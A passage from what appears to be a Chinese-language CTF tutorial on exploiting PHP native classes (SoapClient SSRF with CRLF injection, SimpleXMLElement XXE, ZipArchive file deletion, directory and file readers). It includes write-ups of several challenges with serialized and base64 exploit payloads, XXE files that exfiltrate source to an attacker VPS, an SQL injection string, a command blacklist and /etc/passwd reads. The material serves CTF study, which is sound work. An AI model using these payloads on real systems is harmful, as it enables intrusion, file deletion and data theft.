这里能实现步骤为f赋值为extract，接着post传参b=var_dump，在第一个第一个call_user_func()函数中extract函数多了一个变量b，即extract(b)，由于extract函数的特性，函数内部实际上为extract（b=>var_dump），于是形成$b=var_dump随后name赋值为job，在第二个call_user_func()函数中,构成了var_dump(array(reset($_SESSION), ‘welcome_to_the_lctf2018’))，输出参数中变量的相关信息
2. session反序列化
1 于是我们想通过`ini_set()`函数来构造`ini_set('session.serialize_handler', 'php_serialize');`来改变序列化时的处理器，从而使其和反序列化时处理引擎不同，但是这个函数不接受数组,`$_POST`中需要设置参数传输； 所以用`session_start(['serialize_handler'=>'php_serialize'])`，即POST传入`serialize_handler=php_serialize`来改变处理器，因为`session_start()`中如果提供参数，那么会用其中的项目覆盖会话配置指示中的配置项。即构造 `session_start(serialize_handler=php_serialize)` 就行了。我们可以利用题目中的 `call_user_func($_GET['f'], $_POST);` 函数，传入`GET：/?f=session_start`、`POST：serialize_handler=php_serialize`，实现 `session_start(serialize_handler=php_serialize)` 的调用来修改此页面的序列化引擎为php_serialize。
3. SoapClient类的利用
php中的SoapClient类可以创建soap数据报文，与wsdl接口进行交互。该内置类有一个 __call 方法，当 __call 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 __call 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。
1 public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )
其中$options数组下有个user_agent选项，我们可以利用该选项来自定义User-Agent。而在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码。
1 2 3 4 5 6 7 <?php $target = "http://127.0.0.1/flag.php" ;$attack = new SoapClient (null , array ('location' => $target ,'user_agent' => "btis\r\nCookie: PHPSESSID=r9i78lda5e28i65bdlcsjb3l06\r\n" ,'uri' => "123" ));$payload = urlencode (serialize ($attack ));echo $payload ;
其中有两个必备参数location是要将请求发送到的SOAP服务器的URL，uri 是SOAP服务的目标命名空间。我们将location设置为http://127.0.0.1/flag.php即本地flag.php文件，这个条件满足了flag.php中要求的$_SERVER["REMOTE_ADDR"]==="127.0.0.1"，uri随便填就好。其中user_agent，是我们用来定义User-Agent，利用CRLF同时传入页面的cookie，使$_SESSION['flag'] = $flag;保存到指定cookie中。
1 2 3 O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A52%3A%22btis%0D%0ACookie%3A+PHPSESSID%3Dr9i78lda5e28i65bdlcsjb3l06%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D

利用php_serialize序列化传入后，并用php反序列化处理后此时session中包含了：一个键名a:1:{s:4:"name";s:222:"，和一个SoapClient对象
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 array (1 ) {"a:1:{s:4:" name";s:222:" "]=> object(SoapClient)#1 (5) { [" uri"]=> string(3) " 123 " [" location"]=> string(25) " http:"_stream_context" ]=>int (0 )"_user_agent" ]=>string (52 ) "John Cookie: PHPSESSID=c472u8eh63tvqe5kq44o4mq3b1 " "_soap_version" ]=>int (1 )
但此时还不会触发SSRF，需要触发 __call 方法来造成SSRF，该方法在访问对象中一个不存在的方法时会被自动调用，所以单纯反序列化还不行，我们还需要访问该对象中一个不存在的方法，这里就用到了如下这段代码：
1 2 $a = array (reset ($_SESSION ), 'welcome_to_the_lctf2018' );call_user_func ($b , $a );
我们可以利用extract函数将变量b覆盖为call_user_func，这样，就成了：
1 call_user_func (call_user_func, array (reset ($_SESSION ), 'welcome_to_the_lctf2018' ));
call_user_func()函数有一个特性，就是当只传入一个数组时，可以用call_user_func()来调用一个类里面的方法，call_user_func()会将这个数组中的第一个值当做类名，第二个值当做方法名。
下面我们用extract()将$b覆盖成call_user_func()，reset($_SESSION)就是$_SESSION['name']，所以我们传入name=SoapClient
最后的call_user_func($b, $a)就变成了call_user_func(array('SoapClient','welcome_to_the_lctf2018')),即call_user_func(SoapClient->welcome_to_the_lctf2018)。
因为SoapClient对象中没有welcome_to_the_lctf2018这个方法，就会调用魔术方法__call()从而发送请求，造成SSRF去访问flag.php。

如上图，访问之后，自动发送了http请求，访问session文件，此时PHP反序列化引擎会反序列化你之前输入的内容，于是成功绕过本地地址访问的限制，于是变量flag存入session，然后我们接着访问index.php，页面会输出session文件的内容，回显flag
这一步由于会触发SSRF请求，因此会等待很久。
10.4 SimpleXMLElement 类进行 XXE
SimpleXMLElement 类
SimpleXMLElement 这个内置类用于解析 XML 文档中的元素。
官方文档中对于SimpleXMLElement 类的构造方法 SimpleXMLElement::__construct 的定义如下：
1 2 3 4 5 6 7 public SimpleXMLElement ::__construct (string $data ,int $options = 0 ,bool $dataIsURL = false ,string $namespaceOrPrefix = "" ,bool $isPrefix = false
其中值得注意的是$data和$data_is_url这两个参数：
$data：格式正确的XML字符串，或者XML文档的路径或URL（如果$data_is_url为true）。
$data_is_url：默认情况下$data_is_url为false。使用true指定$data的路径或URL到一个XML文件，而不是字符串数据。
可以看到通过设置第三个参数 $data_is_url 为 true，我们可以实现远程xml文件的载入。第二个参数的常量值我们设置为2即可。第一个参数 data 就是我们自己设置的payload的url地址，即用于引入的外部实体的url。
这样的话，当我们可以控制目标调用的类的时候，便可以通过 SimpleXMLElement 这个内置类来构造 XXE。
example：
1 2 3 4 5 6 7 8 9 10 11 <?php $xml = <<<EOF <?xml version="1.0" encoding="utf-8" ?> <!DOCTYPE ANY [ <!ENTITY % remote SYSTEM "http://t6n089.ceye.io">%remote;]> ]> <x>&xee</x> EOF ;$xml_class = new SimpleXMLElement ($xml , LIBXML_NOENT);var_dump ($xml_class );?>
实现了引用外部实体。同理我们可以让上面代码中的$xml中的内容放到自己的VPS中，然后在新建类对象的时候第一个参数写的是URL地址去实现XML文件的远程载入，这样也能实现XXE。
[SUCTF 2018]Homework
题目分析
先注册账号登陆作业平台。看到一个calc计算器类。有两个按钮，一个用于调用calc类实现两位数的四则运算。另一个用于提交代码。

点击CALC按钮，观察返回的结果和URL

再根据calc类里面的内容，不难判断得知，这里通过module传参去调用calc类，然后剩下3个变量是calc($args1,$method,$args2)函数中参数。
SimpleXMLElement 类的使用
首先，我们在vps（124.220.233.26）上构造如下evil.xml、send.xml这两个文件。
evil.xml：
1 2 3 4 5 6 7 <?xml version="1.0" encoding="UTF-8" ?> <!DOCTYPE try [ <!ENTITY % int SYSTEM "https://VPS/tmp/semd.xml" > %int; %all; %send; ]>
send.xml：
1 2 <!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" > <!ENTITY % all "<!ENTITY % send SYSTEM 'https://VPS/?%payl;'>" >
然后在url中构造如下：
1 /show.php?module=SimpleXMLElement&args[]=http://124.220.233.26/tmp/evil.xml&args[]=2&args[]=true
然后我们就可以看web日志：（这个作者也是埋坑呢，这里他用的https协议，我们改成http即可）

base64解码，得到源码

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 <!DOCTYPE html>"viewport" content="width=device-width, initial-scale=1" >"Content-Type" content="text/html; charset=utf-8" />"application/x-javascript" > addEventListener ("load" , function() { setTimeout (hideURLbar, 0 ); }, false ); function hideURLbar (scrollTo (0 ,1 ); } </script>"css/font-awesome.min.css" rel="stylesheet" type="text/css" media="all" >"css/snow.css" rel="stylesheet" type="text/css" media="all" />"css/style.css" rel="stylesheet" type="text/css" media="all" />"text/css" rel="stylesheet" href="images/Styles/SyntaxHighlighter.css" ></link>default -->class ="snow -container "> <div class ="snow foreground "></div > <div class ="snow foreground layered "></div > <div class ="snow middleground "></div > <div class ="snow middleground layered "></div > <div class ="snow background "></div > <div class ="snow background layered "></div > </div > <div class ="top -buttons -agileinfo "> </div > <h1 >PHP Homework Platform </h1 > <div class ="main -agileits "> <?php include ("function .php "); include ("config .php "); $username =w_addslashes ($_COOKIE ['user ']); $check_code =$_COOKIE ['cookie -check ']; $check_sql ="select password from user where username ='".$username ."'"; $check_sum =md5 ($username .sql_result ($check_sql ,$mysql )['0']['0']); if ($check_sum !==$check_code ) {header ("Location: login.php" );?> "code" class ="php " rows ="20" cols ="55" disabled ="disabled "><?php readfile ("./calc .php ");?> </textarea > <div class ="top -buttons -agileinfo "> <a href ="show .php ?module =calc &args []=2&args []=a &args []=2">calc </a > <a href ="submit .php " class ="active ">Submit homework </a > </div > </div > <script type ="text /javascript " src ="js /jquery -2.1.4.min .js "></script > <script class ="javascript " src ="images /Scripts /shBrushPhp .js "></script > <script class ="javascript "> dp .SyntaxHighlighter .HighlightAll ('code '); </script > </body > </html >
SQL二次注入
index.php
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php include ("function.php" );include ("config.php" );$username =w_addslashes ($_COOKIE ['user' ]);$check_code =$_COOKIE ['cookie-check' ];$check_sql ="select password from user where username='" .$username ."'" ;$check_sum =md5 ($username .sql_result ($check_sql ,$mysql )['0' ]['0' ]);if ($check_sum !==$check_code ){header ("Location: login.php" );?> <?php readfile ("./calc.php" );?>
function.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 <?php function sql_result ($sql ,$mysql if ($result =mysqli_query ($mysql ,$sql )){$result_array =mysqli_fetch_all ($result );return $result_array ;else {echo mysqli_error ($mysql );return "Failed" ;function upload_file ($mysql if ($_FILES ){if ($_FILES ['file' ]['size' ]>2 *1024 *1024 ){die ("File is larger than 2M, forbidden upload" );if (is_uploaded_file ($_FILES ['file' ]['tmp_name' ])){if (!sql_result ("select * from file where filename='" .w_addslashes ($_FILES ['file' ]['name' ])."'" ,$mysql )){$filehash =md5 (mt_rand ());if (sql_result ("insert into file(filename,filehash,sig) values('" .w_addslashes ($_FILES ['file' ]['name' ])."','" .$filehash ."'," .(strrpos (w_addslashes ($_POST ['sig' ]),")" )?"" :w_addslashes ($_POST ['sig' ])).")" ,$mysql )=="Failed" ) die ("Upload failed" );$new_filename ="./upload/" .$filehash .".txt" ;move_uploaded_file ($_FILES ['file' ]['tmp_name' ], $new_filename ) or die ("Upload failed" );die ("Your file " .w_addslashes ($_FILES ['file' ]['name' ])." upload successful." );else {$hash =sql_result ("select filehash from file where filename='" .w_addslashes ($_FILES ['file' ]['name' ])."'" ,$mysql ) or die ("Upload failed" );$new_filename ="./upload/" .$hash [0 ][0 ].".txt" ;move_uploaded_file ($_FILES ['file' ]['tmp_name' ], $new_filename ) or die ("Upload failed" );die ("Your file " .w_addslashes ($_FILES ['file' ]['name' ])." upload successful." );else {die ("Not upload file" );function w_addslashes ($string return addslashes (trim ($string ));function do_api ($module ,$args $class = new ReflectionClass ($module );$a =$class ->newInstanceArgs ($args );?>
show.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php include ("function.php" );include ("config.php" );include ("calc.php" );if (isset ($_GET ['action' ])&&$_GET ['action' ]=="view" ){if ($_SERVER ["REMOTE_ADDR" ]!=="127.0.0.1" ) die ("Forbidden." );if (!empty ($_GET ['filename' ])){$file_info =sql_result ("select * from file where filename='" .w_addslashes ($_GET ['filename' ])."'" ,$mysql );$file_name =$file_info ['0' ]['2' ];echo ("file code: " .file_get_contents ("./upload/" .$file_name .".txt" ));$new_sig =mt_rand ();sql_result ("update file set sig='" .intval ($new_sig )."' where id=" .$file_info ['0' ]['0' ]." and sig='" .$file_info ['0' ]['3' ]."'" ,$mysql );die ("<br>new sig:" .$new_sig );else {die ("Null filename" );$username =w_addslashes ($_COOKIE ['user' ]);$check_code =$_COOKIE ['cookie-check' ];$check_sql ="select password from user where username='" .$username ."'" ;$check_sum =md5 ($username .sql_result ($check_sql ,$mysql )['0' ]['0' ]);if ($check_sum !==$check_code ){header ("Location: login.php" );$module =$_GET ['module' ];$args =$_GET ['args' ];do_api ($module ,$args );?>
show.php中，限制了 ip 只能是127.0.0.1，说明只能通过 XXE 去触发SSRF。这里根据filename获取数据库中的 sig 然后进行 update 操作，但没有对 sig 值进行过滤，导致二次注入。
再看一下function.php中的upload_file()上传文件部分，首先他会判断 filename 是否存在，如果不存在就会插入数据库，这里 sig 没有用单引号保护，但是用了 addslashes() 进行转义，而我们要插入二次注入的语句必须得有单引号，这个时候就可以用 hex 编码进行绕过。
因为sql_result()函数中会输出 sql 错误，所以我们用 updatexml 函数进行报错注入。构造 payload:
数据库可以识别16进制并解码
1 2 3 4 5 6 7 8 '||extractvalue(1,concat(0x7e,(select flag from flag),0x7e))||'
修改send.xml
1 2 <!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/show.php?action=view&filename=1.txt" > <!ENTITY % all "<!ENTITY % send SYSTEM 'https://VPS/?%payl;'>" >

上传成功之后再利用SimpleXMLElement类进行SSRF，也就是访问URL：
1 /show.php?module=SimpleXMLElement&args[]=http://124.220.233.26/tmp/evil.xml&args[]=2&args[]=true
之后查看web访问日志，将得到的结果base64解码之后即可。（注意由于分了2次上传，因此两次的文件名字需要不一样才行）
这里不知道为啥一直实现不了,就看个思路吧…
10.5 ZipArchive 类来删除文件
ZipArchive 类
PHP ZipArchive类是PHP的一个原生类，它是在PHP 5.20之后引入的。ZipArchive类可以对文件进行压缩与解压缩处理。
下面列举几个常见的类方法：
1 2 3 4 5 6 7 8 9 - `ZipArchive ::addEmptyDir `：添加一个新的文件目录ZipArchive ::addFile `：将文件添加到指定zip压缩包中ZipArchive ::addFromString `：添加新的文件同时将内容添加进去ZipArchive ::close `：关闭ziparchiveZipArchive ::extractTo `：将压缩包解压ZipArchive ::open `：打开一个zip压缩包ZipArchive ::deleteIndex `：删除压缩包中的某一个文件，如：`deleteIndex (0 )`代表删除第一个文件ZipArchive ::deleteName `：删除压缩包中的某一个文件名称，同时也将文件删除
我们来重点看看 ZipArchive::open 方法：
1 ZipArchive::open ( string $filename [, int $flags ] ) : mixed
该方法用来打开一个新的或现有的zip存档以进行读取，写入或修改。
1 2 3 4 5 6 7 - `$filename`：要打开的ZIP存档的文件名。
注意，如果设置flags参数的值为 ZipArchive::OVERWRITE 的话，可以把指定文件删除。这里我们跟进方法可以看到const OVERWRITE = 8，也就是将OVERWRITE定义为了常量8，我们在调用时也可以直接将$flags赋值为8。
也就是说我们可以利用ZipArchive原生类调用open方法删除目标主机上的文件。
example：
1 2 3 4 $a = new ZipArchive ();$a ->open ('1.txt' ,ZipArchive ::OVERWRITE );
[NepCTF 2021]梦里花开牡丹亭
找了半天没找到复现环境，就跟着wp走一遍吧
进入题目，给出源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 <?php highlight_file (__FILE__ );error_reporting (0 );include ('shell.php' );class Game public $username ;public $password ;public $choice ;public $register ;public $file ;public $filename ;public $content ;public function __construct ( {$this ->username='user' ;$this ->password='user' ;public function __wakeup (if (md5 ($this ->register)==="21232f297a57a5a743894a0e4a801fc3" ){ $this ->choice=new login ($this ->file,$this ->filename,$this ->content);else {$this ->choice = new register ();public function __destruct ($this ->choice->checking ($this ->username,$this ->password);class login public $file ;public $filename ;public $content ;public function __construct ($file ,$filename ,$content {$this ->file=$file ;$this ->filename=$filename ;$this ->content=$content ;public function checking ($username ,$password {if ($username ==='admin' &&$password ==='admin' ){$this ->file->open ($this ->filename,$this ->content);die ('login success you can to open shell file!' );class register public function checking ($username ,$password {if ($username ==='admin' &&$password ==='admin' ){die ('success register admin' );else {die ('please register admin ' );class Open function open ($filename , $content if (!file_get_contents ('waf.txt' )){ shell ($content );else {echo file_get_contents ($filename .".php" ); if ($_GET ['a' ]!==$_GET ['b' ]&&(md5 ($_GET ['a' ]) === md5 ($_GET ['b' ])) && (sha1 ($_GET ['a' ])=== sha1 ($_GET ['b' ]))){unserialize (base64_decode ($_POST ['unser' ]));
这是一道反序列化题目，但是前面加了一个简单的PHP特性。
1. 数组绕过哈希比较
由于md5()和sha1()函数都无法处理数组，因此传入一个数组会返回false。因此这里可以绕过需要两个不同的数但是其哈希值要相等。
example：

2. 利用php://filter读文件
我们可以看到Open类里面的open()方法，当waf.txt文件存在的时候会执行echo file_get_contents($filename.".php");，而调用这个类方法是在Login类里面的checking()方法，
而调用Login类的checking()方法的是Game类里面的__destruct()内置方法，因此我们就能够找到一条完整的利用链了，POC：
自己大概也打通了，不错…
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php class Game public $username ;public $password ;public $choice ;public $register ;public $file ;public $filename ;public $content ;class login public $file ;public $filename ; public $content ;class Open $poc = new Game ();$poc ->username = "admin" ;$poc ->password = "admin" ;$poc ->register = "admin" ;$poc ->file = new Open ();$poc ->filename = "php://filter/read=convert.base64-encode/resource=shell" ;$poc ->content = "xxx" ;echo base64_encode (serialize ($poc ));?>
得到：
1 Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6NTQ6InBocDovL2ZpbHRlci9yZWFkPWNvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1zaGVsbCI7czo3OiJjb250ZW50IjtzOjM6IjEyMyI7fQ==
执行payload读取到shell.php的源码base64编码：
果然啊，复现的时候，发现原来是waf.txt没创建，导致代码走不通…

shell.php
1 2 3 4 5 6 7 8 9 10 11 12 <?php function shell ($cmd if (strlen ($cmd )<10 ){if (preg_match ('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/' ,$cmd )){die ("NO" );else {return system ($cmd );else {die ('so long!' );
3. 利用ZipArchive类删除文件
联合index.php里面的Open类：
1 2 3 4 5 6 7 8 9 class Open function open ($filename , $content if (!file_get_contents ('waf.txt' )){ shell ($content );else {echo file_get_contents ($filename .".php" );
可知我们只要使 file_get_contents('waf.txt') 读取失败就可以进入 shell($content) 来执行系统命令。所以我们应该要想办法将waf.txt这个文件删除，这样就会读取失败，才能执行我们的命令。
刚好我们的ZipArchive类里面也有一个open()方法，
1 ZipArchive::open($filename, $flags = null)
如果设置flags参数的值为 ZipArchive::OVERWRITE 的话，可以把指定文件删除。这里我们跟进方法可以看到const OVERWRITE = 8，也就是将OVERWRITE定义为了常量8，我们在调用时也可以直接将flags赋值为8。
所以我们利用ZipArchive原生类调用open方法，即可将即可将$filename（waf.txt）删除：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 <?php error_reporting (-1 );class Game public $username ;public $password ;public $choice ;public $register ;public $file ;public $filename ;public $content ;class login public $file ;public $filename ;public $content ;class Open $poc = new Game ();$poc ->username = "admin" ;$poc ->password = "admin" ;$poc ->register = "admin" ;$poc ->file = new ZipArchive ();$poc ->filename = "waf.txt" ;$poc ->content = 8 ;echo base64_encode (serialize ($poc ));?>
得到payload：
1 Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086MTA6IlppcEFyY2hpdmUiOjU6e3M6Njoic3RhdHVzIjtpOjA7czo5OiJzdGF0dXNTeXMiO2k6MDtzOjg6Im51bUZpbGVzIjtpOjA7czo4OiJmaWxlbmFtZSI7czowOiIiO3M6NzoiY29tbWVudCI7czowOiIiO31zOjg6ImZpbGVuYW1lIjtzOjc6IndhZi50eHQiO3M6NzoiY29udGVudCI7aTo4O30=

执行之后即可删除waf.txt。注意我这里在本地复现的时候需要把目录文件夹的所有权和分组都给到www-data才能成功删除文件
我这里是将文件夹权限设置为www即可
4. 命令执行绕过黑名单和字符数限制
最后一步就是执行我们的命令去读flag，回过头来看我们的shell.php
1 2 3 4 5 6 7 8 9 10 11 12 <?php function shell ($cmd if (strlen ($cmd )<10 ){if (preg_match ('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/' ,$cmd )){die ("NO" );else {return system ($cmd );else {die ('so long!' );
这里首先限制了我们的命令长度要小于10个字符，然后字符里面不能有黑名单字符出现，这里我们绕过的方法很多，举个例：
POC:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <?php error_reporting (-1 );class Game public $username ;public $password ;public $choice ;public $register ;public $file ;public $filename ;public $content ;class login public $file ;public $filename ;public $content ;class Open $poc = new Game ();$poc ->username = "admin" ;$poc ->password = "admin" ;$poc ->register = "admin" ;$poc ->file = new Open ();$poc ->filename = "xxx" ;$poc ->content = "n\l /flag" ;echo base64_encode (serialize ($poc ));?>
得到payload：这里估计是文件位置放的不对,我总是读不到
1 Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6MzoieHh4IjtzOjc6ImNvbnRlbnQiO3M6OToiblxsIC9mbGFnIjt9

10.6 遍历目录类
DirectoryIterator 类
DirectoryIterator 类提供了一个用于查看文件系统目录内容的简单接口。该类的构造方法将会创建一个指定目录的迭代器。
类摘要：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 DirectoryIterator extends SplFileInfo implements SeekableIterator {public __construct ( string $path )public current ( ) : DirectoryIterator public getATime ( ) : int public getBasename ( string $suffix = ? ) : string public getCTime ( ) : int public getExtension ( ) : string public getFilename ( ) : string public getGroup ( ) : int public getInode ( ) : int public getMTime ( ) : int public getOwner ( ) : int public getPath ( ) : string public getPathname ( ) : string public getPerms ( ) : int public getSize ( ) : int public getType ( ) : string public isDir ( ) : bool public isDot ( ) : bool public isExecutable ( ) : bool public isFile ( ) : bool public isLink ( ) : bool public isReadable ( ) : bool public isWritable ( ) : bool public key ( ) : string public next ( ) : void public rewind ( ) : void public seek ( int $position ) : void public __toString ( ) : string public valid ( ) : bool
利用 DirectoryIterator 类遍历指定目录里的文件：
如果我们这样：
1 2 3 <?php $dir =new DirectoryIterator ("/" );echo $dir ;
会创建一个指定目录的迭代器。当执行到echo函数时，会触发DirectoryIterator类中的 __toString() 方法，输出指定目录里面经过排序之后的第一个文件名：
也可以配合glob://协议使用模式匹配来寻找我们想要的文件路径：
glob:// 协议用来查找匹配的文件路径模式
1 2 3 <?php $dir =new DirectoryIterator ("glob:///*flag*" );echo $dir ;


如果想输出全部的文件名我们还需要对$dir对象进行遍历：
1 2 3 4 5 <?php $dir =new DirectoryIterator ("/" );foreach ($dir as $f ){echo ($f .'<br>' );

FilesystemIterator 类
FilesystemIterator 类与 DirectoryIterator 类相同，提供了一个用于查看文件系统目录内容的简单接口。该类的构造方法将会创建一个指定目录的迭代器。
该类的使用方法与DirectoryIterator 类也是基本相同的：
1 2 3 <?php $dir =new FilesystemIterator ("/" );echo $dir ;

1 2 3 <?php $dir =new FilesystemIterator ("glob:///*flag*" );echo $dir ;

1 2 3 4 5 <?php $dir =new FilesystemIterator ("/" );foreach ($dir as $f ){echo ($f .'<br>' );

GlobIterator 类
与前两个类的作用相似，GlobIterator 类也可以遍历一个文件目录，使用方法与前两个类也基本相似。但与上面略不同的是其行为类似于 glob()，可以通过模式匹配来寻找文件路径。
类摘要：
1 2 3 4 5 6 7 8 9 10 11 12 13 GlobIterator extends FilesystemIterator implements SeekableIterator , Countable {public __construct ( string $pattern , int $flags = FilesystemIterator ::KEY_AS_PATHNAME | FilesystemIterator ::CURRENT_AS_FILEINFO )public count ( ) : int public FilesystemIterator ::__construct ( string $path , int $flags = FilesystemIterator ::KEY_AS_PATHNAME | FilesystemIterator ::CURRENT_AS_FILEINFO | FilesystemIterator ::SKIP_DOTS )public FilesystemIterator ::current ( ) : mixed public FilesystemIterator ::getFlags ( ) : int public FilesystemIterator ::key ( ) : string public FilesystemIterator ::next ( ) : void public FilesystemIterator ::rewind ( ) : void public FilesystemIterator ::setFlags ( int $flags = ? ) : void
我们知道，向下面这样在单纯的使用 DirectoryIterator 类和 FilesystemIterator 类且没有配合glob://协议进行匹配的时候：
1 2 3 4 5 6 7 <?php $dir =new DirectoryIterator ("/" );echo $dir ;<?php $dir =new FilesystemIterator ("/" );echo $dir ;
其构造函数创建的是一个指定目录的迭代器，当我们使用echo函数输出的时候，会触发这两个类中的 __toString() 方法，输出指定目录里面特定排序之后的第一个文件名。也就是说如果我们不循环遍历的话是不能看到指定目录里的全部文件的，而 GlobIterator 类便可以帮我们在一定程度上解决了这个问题。由于 GlobIterator 类支持直接通过模式匹配来寻找文件路径，也就是说假设我们知道一个文件名的一部分，我们可以通过该类的模式匹配找到其完整的文件名。例如，我们在CTF中知道flag在根目录，但是我们不知道flag文件的完整文件名，我们就可以通过类似 GlobIterator(/*flag*)：

使用可遍历目录类绕过 open_basedir
DirectoryIterator类或者FilesystemIterator类与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。
example:
1 2 3 4 5 6 7 8 9 10 <?php $dir = $_GET ['whoami' ];$a = new DirectoryIterator ($dir );foreach ($a as $f ){echo ($f ->__toString ().'<br>' );?> $a = new DirectoryIterator ("glob:///*" );foreach ($a as $f ){echo ($f ->__toString ().'<br>' );}

使用FilesystemIterator类同理。
而使用 GlobIterator 类支持直接通过模式匹配来寻找文件路径，所以我们就不用在配合glob://协议了。
example:
1 2 3 4 5 6 7 8 9 10 <?php $dir = $_GET ['whoami' ];$a = new GlobIterator ($dir );foreach ($a as $f ){echo ($f ->__toString ().'<br>' );?> $a = new FilesystemIterator ("/*" );foreach ($a as $f ){echo ($f ->__toString ().'<br>' );}

10.7 可读取文件类
SplFileObject 类
SplFileObject 类为单个文件的信息提供了一个高级的面向对象的接口，可以用于对文件内容的遍历、查找、操作等。详情请参考：https://www.php.net/manual/zh/class.splfileobject.php
该类的构造方法可以构造一个新的文件对象用于后续的读取。
我们可以像类似下面这样去读取一个文件的一行：
1 2 3 <?php $context = new SplFileObject ('/etc/passwd' );echo $context ;

但是这样也只能读取一行，要想全部读取的话还需要对文件中的每一行内容进行遍历：
1 2 3 4 5 6 <?php $context = new SplFileObject ('/etc/passwd' );foreach ($context as $f ){echo ($f );

[DASCTF MAR 2021]ez_serialize
进入题目，给出源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 <?php error_reporting (0 );highlight_file (__FILE__ );class A public $class ;public $para ;public $check ;public function __construct ( {$this ->class = "B "; $this ->para = "ctfer "; echo new $this ->class ($this ->para ); } public function __wakeup () // 可以直接绕过__wakeup ()方法的执行 {$this ->check = new C;if ($this ->check->vaild ($this ->para) && $this ->check->vaild ($this ->class )) {echo new $this ->class ($this ->para ); } else die ('bad hacker ~'); } } class B var $a ;public function __construct ($a {$this ->a = $a ;echo ("hello " .$this ->a);class C function vaild ($code $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i' ;if (preg_match ($pattern , $code )){return false ;else return true ;if (isset ($_GET ['pop' ])){unserialize ($_GET ['pop' ]);else {$a =new A;
这是一道PHP反序列化的题目，题目里面没有给出什么危险的函数调用，因此应该要想到是原生类的利用。留意这一段代码：
1 2 3 4 5 6 7 8 9 public function __wakeup (__wakeup ( {$this ->check = new C;if ($this ->check->vaild ($this ->para) && $this ->check->vaild ($this ->class )) {echo new $this ->class ($this ->para ); } else die ('bad hacker ~'); }
我们从反序列化的__wakeup()函数入手，看到新建了一个C的类对象，然后使用C类里面的check()方法对$para和$class这两个属性进行检查，看是否存在非法的字符，没有问题之后就使用echo new $this->class ($this->para);语句将新建类返回的内容输出。
目录遍历类
首先利用DirectoryIterator或FilesystemIterator类去遍历目标的Web目录：
1 2 3 4 5 6 7 8 9 10 <?php class A public $class ='FilesystemIterator' ; public $para ="/var/www/html/" ;public $check ;$poc = new A ();echo serialize ($poc );
得到payload：
1 O:1:"A":3:{s:5:"class";s:18:"FilesystemIterator";s:4:"para";s:14:"/var/www/html/";s:5:"check";N;}
执行后得到一个文件夹 aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE
继续往下找:
1 2 3 4 5 6 7 8 9 10 <?php class A public $class ='FilesystemIterator' ; public $para ="/var/www/html/" ;public $check ;$poc = new A ();echo serialize ($poc );
